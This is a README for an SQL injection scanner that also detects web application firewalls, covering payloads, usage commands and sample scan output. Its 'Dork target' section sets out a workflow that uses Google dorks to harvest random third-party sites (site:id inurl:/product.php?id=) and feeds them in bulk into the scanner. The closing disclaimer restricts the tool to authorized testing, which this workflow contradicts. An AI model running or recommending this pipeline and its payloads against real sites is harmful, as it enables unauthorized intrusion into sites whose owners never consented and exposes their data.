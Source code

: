 
# SQL Injection Detector with WAF Detection

## Original
Forked from https://github.com/aungsanoo-usa/sqli_detect.git

## Overview
This script is a powerful tool for detecting **SQL Injection vulnerabilities** and identifying **Web Application Firewall (WAF) behavior** in web applications. Designed for both single URL and bulk URL testing from a `urls.txt` file, it provides detailed insights into the security posture of your application.

## Features
- **SQL Injection Detection**:
  - Comprehensive payloads for error-based, union-based, and logical SQL injection techniques.
  - Tracks significant changes in response length and detects error messages.
  
- **Web Application Firewall (WAF) Detection**:
  - Identifies WAF behavior by observing HTTP status codes (`403`, `406`, etc.) and content changes.

- **Flexible Scanning**:
  - Test a single URL or scan multiple URLs from a `urls.txt` file.

- **User-Friendly Output**:
  - Color-coded results for vulnerabilities, WAF detection, and safe responses.

## Requirements
- Python 3.6 or later
- Libraries: `requests`, `colorama`

Install the required libraries using:
```bash
pip install requests colorama
```

## Dork target
1. google dork:
   ```bash
   $ git clone https://github.com/BullsEye0/dorks-eye
   $ python dorks-eye.py
   query > site:id inurl:/product.php?id=
   display > 100

   $ cat dork_results.txt | grep -E ".php|.asp|.aspx|.jspx|.jsp" | grep '=' | sed 's/=.*/=/' | sort | uniq > bsqli.txt
   $ python3 sqli_detect.py
   URL > 2
   file > bsqli.txt
   ```

## Usage
1. Run the script:
   ```bash
   python sqli_detect.py
   ```
2. Choose your scan type:
   - Enter `1` for a single URL scan.
   - Enter `2` to scan multiple URLs from a file (e.g., `urls.txt`).

3. Review the results in the terminal.

## Input Format
### Single URL
When prompted, enter a URL with a parameter:
```
http://example.com/page.php?id=
```

### Bulk URLs
Create a `urls.txt` file with one URL per line:
```
http://example.com/page.php?id=
http://test.com/item.php?item_id=
http://vulnerable-site.com/index.php?product_id=
```

## Example Output
### Vulnerable Target
```text
[*] Starting SQL Injection scan for: http://example.com/page.php?id=
[+] SQL Injection Found with payload: ' OR 1=1; --
[!] WAF Detected: Payload '' caused HTTP 403
[+] SQL Injection Found with payload: ' UNION SELECT NULL,NULL,NULL--

[!] Scan complete.
[!!!] The target might be VULNERABLE to SQL Injection.
```

### Secure Target
```text
[*] Starting SQL Injection scan for: http://example.com/page.php?id=
[-] No vulnerability with payload: '
[-] No vulnerability with payload: ' OR 1=1; --
[!] WAF behavior detected: Response length changed with payload: ' UNION SELECT NULL,NULL,NULL--

[!] Scan complete.
[+] The target is NOT vulnerable to SQL Injection.
```

### Bulk URLs Summary
```text
[*] Starting SQL Injection scan for: http://example.com/page.php?id=
[+] SQL Injection Found with payload: ' OR '1'='1
[!] WAF Detected: Payload '' caused HTTP 406
[*] Starting SQL Injection scan for: http://secure-site.com/index.php?item_id=
[-] No vulnerability with payload: '

[!] Scan complete.
Summary:
http://example.com/page.php?id= -> VULNERABLE
http://secure-site.com/index.php?item_id= -> NOT VULNERABLE
```

## Payloads Used
The script tests a wide variety of SQL injection payloads, including:
- `'`
- `''`
- `' OR 1=1; --`
- `' UNION SELECT NULL,NULL,NULL--`
- And many more...

For the full list, refer to the `scan()` function in the script.

## Contributions
Contributions are welcome! If you'd like to improve the tool, feel free to fork the repository, make your changes, and submit a pull request.

## Disclaimer
This tool is intended for **educational purposes** and **authorized penetration testing** only. Ensure you have permission to test any target. The developers are not responsible for any misuse of this tool.


